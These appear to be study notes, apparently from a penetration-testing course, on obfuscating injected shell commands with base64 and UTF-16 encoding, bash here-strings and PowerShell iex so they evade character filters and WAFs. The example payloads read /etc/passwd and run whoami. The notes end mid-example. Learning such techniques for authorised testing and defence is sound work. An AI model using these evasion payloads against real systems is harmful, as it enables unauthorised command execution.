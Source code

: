 `echo -n 'cat /etc/passwd/ | grep 33' | base64`

then we can create a command to decode the encoded string in a sub-shell and pass it to bash to be executed with `bash<<<`:

`bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

note that `<<<` can be used to avoid using `|` which is a filtered character 

![](Images/Pasted%20image%2020240202184004.png)

if commands like `base64` or `bash` are filtered then we can use techniques like character insertion or use alternatives like `sh` for command execution and `openssl` for base64 decoding or xxd for hex decoding 

for windows we can encode our string: 

`[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`

we could also do the same on linux but we have to convert the string from utf-8 to utf-16 before we base64 it: 

`echo -n whoami | iconv -f utf-8 -t utf-16le | base64`

then we can decode the base64 string and execute it with a powershell sub-shell: 

`iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

these types of obfuscation methods have not been used before because we decide how we want to hide our commands, so they are likely to bypass filters and WAFs 

in addition to these methods we can use other methods like wildcards, regex, output redirection, integer expansion, and many others   
PayloadAllTheThings has more of these methods

if we wanted to use the payload `find /usr/share/ | grep root | grep mysql | tail -n 1`, we could first base64 encode it: 

![](Images/Pasted%20image%2020240202184745.png)
